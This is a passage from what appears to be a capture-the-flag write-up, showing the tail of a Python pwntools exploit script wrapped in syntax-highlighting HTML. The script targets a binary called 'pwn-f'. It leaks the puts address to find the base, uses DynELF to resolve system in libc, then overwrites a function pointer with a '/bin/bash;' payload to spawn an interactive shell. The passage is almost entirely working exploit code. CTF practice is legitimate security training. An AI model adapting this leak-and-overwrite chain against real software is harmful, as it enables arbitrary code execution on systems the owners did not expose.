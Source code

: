     <span class="hljs-keyword">if</span> len(data)&gt;<span class="hljs-number">8</span>:
        data=data[:<span class="hljs-number">8</span>]    
    data = u64(data.ljust(<span class="hljs-number">0x8</span>,<span class="hljs-string">'\x00'</span>))<span class="hljs-comment"># leaked puts address use it to calc base addr</span>
    base_addr = data - <span class="hljs-number">0xd2d</span>
    <span class="hljs-comment">#step 4 get printf func addr</span>
    printf_offset = pwn.plt[<span class="hljs-string">'printf'</span>]
    printf_addr = base_addr + printf_offset <span class="hljs-comment">#get real printf addr</span>
    delete_str(<span class="hljs-number">0</span>)
    <span class="hljs-comment">#step 5 leak system addr</span>
    create_str(<span class="hljs-number">0x20</span>,payload)
    delete_str(<span class="hljs-number">1</span>)<span class="hljs-comment">#this one can not be ignore because DynELF use the delete_str() at begin     </span>
    d = DynELF(leak, base_addr, elf=ELF(<span class="hljs-string">'./pwn-f'</span>))
    system_addr = d.lookup(<span class="hljs-string">'system'</span>, <span class="hljs-string">'libc'</span>)
    <span class="hljs-keyword">print</span> <span class="hljs-string">'system_addr:'</span>+hex(system_addr)

    <span class="hljs-comment">#step 6 recover old function to system then get shell</span>
    delete_str(<span class="hljs-number">0</span>)
    create_str(<span class="hljs-number">0x20</span>,<span class="hljs-string">'/bin/bash;'</span>.ljust(<span class="hljs-number">0x18</span>,<span class="hljs-string">'#'</span>)+p64(system_addr))<span class="hljs-comment">#attention /bin/bash; i don`t not why add the ';'</span>
    delete_str(<span class="hljs-number">1</span>)
    sh.interactive()
<span class="hljs-keyword">if</span> __name__ == <span class="hljs-string">'__main__'</span>:
    <span class="hljs-keyword">print</span> <span class="hljs-number">1</span>
    main()</code></pre></hr></div>